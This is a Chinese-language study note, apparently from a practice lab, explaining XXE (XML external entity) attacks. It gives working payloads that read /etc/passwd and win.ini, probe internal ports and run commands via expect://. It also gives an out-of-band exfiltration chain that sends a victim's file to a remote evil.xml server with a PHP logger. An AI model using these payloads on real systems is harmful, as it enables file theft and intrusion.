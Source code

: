 # XXE attack

禁止外部解析xml === 无xxe attack漏洞 

现在已经不常见了.


XML必须要有一个root element，要定义数据实体，这种定义数据实体/类型的行为叫做DTD，DTD可以内部定义也可以引用外部实体。引用外部实体会造成XXE attack.

```
	<!DOCTYPE 根元素 SYSTEM "DTD文件路径">
或者
	<!DOCTYPE 根元素 SYSTEM "DTD文件路径" [定义内容]>
会造成xxe attack。
```


例：

pikachu靶场xxe部分：
![[Pasted image 20211209214513.png]]
输入测试payload：

```
<?xml version = "1.0"?> <!DOCTYPE ANY [ <!ENTITY f SYSTEM "file:///etc/passwd"> ]> <x>&f;</x>
```


解析xml entity： ```&``` 开头，``` ；```结尾。例如 ``` <x>&f;</x> ``` 就是解析f实体，f在``` <!ENTITY f SYSTEM "file:///etc/passwd"> ``` 定义了。

结果：
![[Pasted image 20211209214959.png]]


## xxe attack应用


### 读取敏感文件

例如payload： 
1. ``` <?xml version = "1.0"?> <!DOCTYPE ANY [ <!ENTITY f SYSTEM "file:///etc/passwd"> ]> <x>&f;</x> ```
2. 如果xml attack payload需要在地址栏输入，例如  <a>xxx.com/xxx/?xml=somexmlattackpayload </a> 这种情况下，需要对payload先进行url编码，再传入地址栏，否则payload的一些符号会被过滤。
```http://127.0.0.1/xxe.php?xml=<%3fxml version%3d"1.0"%3f><!DOCTYPE%20 a%20 [<!ENTITY b SYSTEM"file%3a%2f%2f%2fC%3a%2fWindows%2fwin.ini">]><c>%26b%3b<%2fc>```
还可以用php伪协议读取文件，具体看暗月pdf



### 看内网端口是否开启

payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "http://127.0.0.1:80">
]>
<abc>&test;</abc>
```

如果需要url编码，那就把payload编码。   看是否有response判断内网某端口是否开启



### 执行命令
若开启expect 扩展，可以利用xxe漏洞执行命令
payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "expect://whoami">
]>
<abc>&test;</abc>

```


### 无回显带外通信
payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///C:/1.txt">
<!ENTITY % remote SYSTEM "http://192.168.0.107/evil.xml">
%remote;
%all;
]>
<root>&send;</root>


```

远程服务器上的evil.xml 文件内容:


```xml

<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.0.107/1.php?file=%file;'>">


```

1.php:

```php
<?php file_put_contents("1.txt", $_GET['file']); ?>
```

读取受害机C盘```1.txt```文件，写入到远程服务器的```1.txt```中。